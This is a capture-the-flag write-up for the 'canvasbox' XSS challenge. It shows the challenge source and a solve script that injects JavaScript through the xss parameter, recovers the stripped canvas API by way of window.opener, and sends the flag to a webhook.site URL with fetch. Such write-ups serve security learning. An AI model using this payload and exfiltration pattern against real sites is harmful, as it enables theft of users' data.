


# canvasbox

## Challenge Description

A single page XSS challenge by `Ark`. The server also response with CSP header `Content-Security-Policy: base-uri 'none'; frame-ancestors 'none'`


## Challenge Source code
```html
<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "this_is_a_flag";
      localStorage.removeItem("flag");

      const canvas = document.createElement("canvas");
      canvas.id = "flag";
      canvas.getContext("2d").font = `1px "${flag}"`; // :)
      document.body.appendChild(canvas);

      delete window.open;

      const removeKey = (obj, key) => {
        
        delete obj[key];
        if (key in obj) {
          Object.defineProperty(obj, key, {});
        }
        
      };

      for (const descriptor of Object.values(
        Object.getOwnPropertyDescriptors(window)
      )) {
        const value = descriptor.value;
        const prototype = value?.prototype;

        if (prototype instanceof Node || value === DOMParser) {
          // Delete all the properties
          for (const key of Object.getOwnPropertyNames(value)) {
            removeKey(value, key);
          }
          for (const key of Object.getOwnPropertyNames(prototype)) {
            removeKey(prototype, key);
          }
        }
      }
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";

    eval(xss); // Get the flag!
  </script>
</body>

```

## What did I do?

### Stuggle

First, of cuz popping `alert` boxes!



In this challenge, we can only access `flag` via `canvas.getContext("2d").font`, however the `getContext` function, along with many other things were removed by the author.

I don't have `document.createElement`, `body.innerHTML`, not even `document.body`! The only way to work with this is to recover the `getContext` function from a webpage that is still intact.

After few hours of stuggle, I noticed the server failed to set `Cross-Origin-Opener-Policy` as it is served via unsecure HTTP connection, and the code specifically removed `window.open`. I wonder if this is a hint :O

### Solution

Reading some writeup, it seems that everyone is using `window.open` like the popup blocker doesn't exists (yes, it doesn't exists in the bot). With this function, we can create a new, unpolluted `document` and access the removed `getContext` function. Except that it is specifically removed in this challenge...

So instead, we can call `window.open` on our own website, and access the `document` via `window.opener`. After some try-and-error, I got this solve script:

## Solve Script

```html
<script>
  payload = `
    fetch("https://webhook.site/xxxxxxxxxxxx?inner")
    window.opener.location = "http://web:3000/404"
    setTimeout(()=>{
        window.opener.document.write("<canvas id=ff></canvas>")
        Object.setPrototypeOf(flag, window.opener.document.getElementById("ff").__proto__);
        fetch("https://webhook.site/xxxxxxxxxxxx?"+flag.getContext("2d").font)
    },1000);
  `
  window.open("http://web:3000/?xss=" + encodeURIComponent(payload))
</script>

```

## Some explaination to the code


## Comments

This challenge was a `hard` challenge and I am very lucky to be able to solve it. Surprisingly, I couldn't solve the `easy` challenge "Slide Sandbox". Looking at the solve counts, seems everyone had the same thought. I wonder if I got the intended solution?



Anyway, I think I won this game as I solved a `hard` challenge from `Ark` lol. Thanks!
